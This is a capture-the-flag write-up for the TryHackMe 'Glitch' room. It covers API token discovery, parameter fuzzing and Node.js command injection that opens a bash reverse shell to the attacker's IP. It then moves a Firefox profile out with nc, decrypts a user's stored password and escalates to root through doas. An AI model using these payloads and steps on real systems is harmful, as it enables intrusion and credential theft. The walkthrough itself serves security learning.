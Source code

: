 # Room: Glitch

## General Info
- **Room link:** [Glitch](https://tryhackme.com/room/glitch)

## Description

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

## Provided Files / Links
- [x] Target Machine IP (10.10.51.179)


## Enumeration / Recon
- Ports Enumeration

Basic port enumeration:
`nmap -sV 10.10.51.179 -p- -T5`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When visiting the website, I notice the following script in the HTML:

```

      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

I use Burp Suite to perform this request:

```
GET /api/access HTTP/1.1
Host: 10.10.51.179
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: token=value
If-None-Match: W/"2d4-9vv1ycPBiNQXrvbVqqN9dD9MWUM"
Connection: keep-alive
```

And I get the following response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:15:51 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 36
Connection: keep-alive
X-Powered-By: Express
ETag: W/"24-8nMb1yUaJcnW8A0Wwa1z8teVcXo"

{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

The token is base64 encoded and the decoded version is `this_is_not_real`.

I then added the token value in the web application cookies. Now the page loads with elements added from the /api/items endpoint:

```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

I check which HTTP methods are allowed on this endpoint:

```
curl -i -X OPTIONS http://10.10.162.38/api/items

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:48:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: keep-alive
X-Powered-By: Express
Allow: GET,HEAD,POST
ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"

GET,HEAD,POST% 
```

When making a POST request (without a payload), I get this response:

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since I don't get much information about the api structure, I will try to fuzz parameters (I use the wordlist 1-4_all_letters_a-z.txt to test for all possible characters in a 4 letters parameter):

```
wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
```

And I get the following result:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd" 
```

Now I can exploit the cmd parameter to get a reverse shell (I use Burp Suite to create the connection):

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/MY-IP/1337+0>%261"') HTTP/1.1
Host: 10.10.162.38
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

I am in the target machine now and I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I then find the flag in /home/user/user.txt: **THM{i_don't_know_why}**.

In the /home/user directory, I find a .firefox directory.

I then proceed to zip the folder (firefox.tar.gz) and send it to my machine:

```
nc MY-IP 33456 < firefox.tar.gz (on target machine)
nc -nvlp 33456 > firefox.tar.gz (on my machine)
```
I find this github https://github.com/unode/firefox_decrypt to decrypt passwords.

```
python3 firefox_decrypt/firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
```

When selecting the second option, I get v0id's password:

```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```

I can now switch user and become v0id.

I then run the following command to find files with potentially insecure or incorrect SUID bits:

```
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
```

And I find this file:

```
-rwsr-xr-x 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
```

I then use the following doas exploit:

```
/usr/local/bin/doas -u root /bin/bash
```

And I am root. I find the root flag in /root/root.txt: **THM{diamonds_break_our_aching_minds}**
